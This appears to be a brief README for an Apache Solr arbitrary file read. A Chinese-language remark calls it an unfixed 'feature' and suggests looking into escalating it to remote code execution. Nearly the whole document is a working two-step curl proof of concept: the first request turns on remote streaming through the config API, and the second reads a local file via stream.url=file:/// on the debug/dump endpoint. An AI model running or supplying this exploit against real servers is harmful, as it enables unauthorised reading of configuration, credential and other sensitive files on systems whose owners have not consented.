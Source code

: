 # Solr-file_read



一个官方觉得是feature而不修复的漏洞

如何read to RCE 值得思考



POC:

```
curl -d '{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://192.168.33.130:8983/solr/db/config -H 'Content-type:application/json' 

curl "http://192.168.33.130:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file:///C:/a.txt" 
```



![image-20210318145728513](https://gitee.com/svenbeast/NotePicture/raw/master/img/2021/03/18/37216_image-20210318145728513.png)
